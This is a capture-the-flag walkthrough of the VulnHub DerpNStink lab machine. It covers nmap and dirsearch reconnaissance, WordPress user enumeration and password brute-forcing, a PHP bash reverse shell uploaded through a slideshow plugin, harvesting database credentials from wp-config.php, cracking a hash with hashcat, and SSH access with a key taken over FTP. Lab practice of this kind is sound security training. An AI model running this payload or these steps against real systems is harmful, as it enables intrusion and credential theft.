::::::::::::::::::::::::::::::::::: page
# DerpNStink: 1 {#derpnstink-1 .title}

\

## 

## DerpNStink: 1

- **[DerpNStink: 1]{style="color:#663e0e;"}** :-

<!-- -->

- Download the machine :
  <https://www.vulnhub.com/entry/derpnstink-1,221/>



- Open ova file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#3584e4;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::



- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.105
:::



- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.247
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.247
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.247
:::



1.  [Web Enumeration]{style="color:#3584e4;"} :

- IP visit in browser : <http://192.168.2.247/>

<!-- -->

- Run dirsearch to brute force :

::: codebox
    dirsearch -u http://192.168.2.247
:::



- Visit the parameter : <http://192.168.2.247/robots.txt>
  <http://192.168.2.247/weblog/wp-login.php>
  [http://192.168.2.247/php/phpmyadmin/](http://192.168.2.108/php/phpmyadmin/)

<!-- -->

- Entry in host file :

::: codebox
    nano /etc/hosts
:::



- Then visit the hostname : <http://derpnstink.local/weblog/>
  <http://derpnstink.local/weblog/wp-login.php>

<!-- -->

- Find wordpress username :

::: codebox
    wpscan --url http://derpnstink.local/weblog -e u
:::



- Find wordpress password :

::: codebox
    wpscan --url http://derpnstink.local/weblog --usernames admin --passwords /opt/rockyou.txt
:::



- Now Login wordpress : <http://derpnstink.local/weblog/wp-login.php>

::: codebox
    Username : admin
    Password : admin
:::

1.  [Reverse Shell]{style="color:#3584e4;"} :

- Make a reverse shell file :

::: codebox
    nano reverse_shell.php
:::

- Add the reverse shell payload :

::: codebox
    <?php `/bin/bash -c 'bash -i >& /dev/tcp/192.168.2.219/443 0>&1'`; ?>
:::

- After login the wordpress the go to Slideshow :

::: codebox
    Slideshow > Manage slides
:::

 Click on edit .

- Start the listener :

::: codebox
    nc -nlvp 443
:::

- Now upload the file :



- Get the shell :



- Navigate the directory :

::: codebox
    cd /var/www/html/weblog
:::

- 

::: codebox
    ls
:::



- Read the config.php file :

::: codebox
    cat wp-config.php
:::



Database Credentials :

::: codebox
    DB_NAME = wordpress
    DB_USER = root
    DB_PASSWORD = mysql
    DB_HOST = localhost
:::

- Now login phpmyadmin :



- Go to wordpress then wp_users :

 Found user and password hash .

::: codebox
    User : unclestinky
    Hash : $P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41
:::

- Password Hash crack :

::: codebox
    hashid '$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41'
:::

::: codebox
    echo '$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41' > hash.txt
:::



- Crack with hashcat :

::: codebox
    hashcat -m 400 hash.txt /opt/rockyou.txt
:::

- 



- Read /etc/passwd file :

::: codebox
    cat /etc/passwd
:::



- Normal user found :

::: codebox
    stinky 
    mrderp
:::

1.  [FTP Enumeration]{style="color:#3584e4;"} :

- FTP login :

::: codebox
    ftp 192.168.2.247 
:::



- Navigate the directory :

::: codebox
    cd /files/ssh/ssh/ssh/ssh/ssh/ssh/ssh
:::

- 

::: codebox
    ls
:::



- Download the file :

::: codebox
    get key.txt
:::





1.  [SSH Connection Access]{style="color:#3584e4;"} :

- Verify Key :

::: codebox
    ssh-keygen -lf key.txt
:::

- 

::: codebox
    head -1 key.txt
:::



- Get the permission :

::: codebox
    chmod 600 key.txt
:::

- SSH Login :

::: codebox
    ssh -o PubkeyAcceptedAlgorithms=+ssh-rsa -o HostKeyAlgorithms=+ssh-rsa -i key.txt stinky@192.168.2.247
:::


:::::::::::::::::::::::::::::::::::
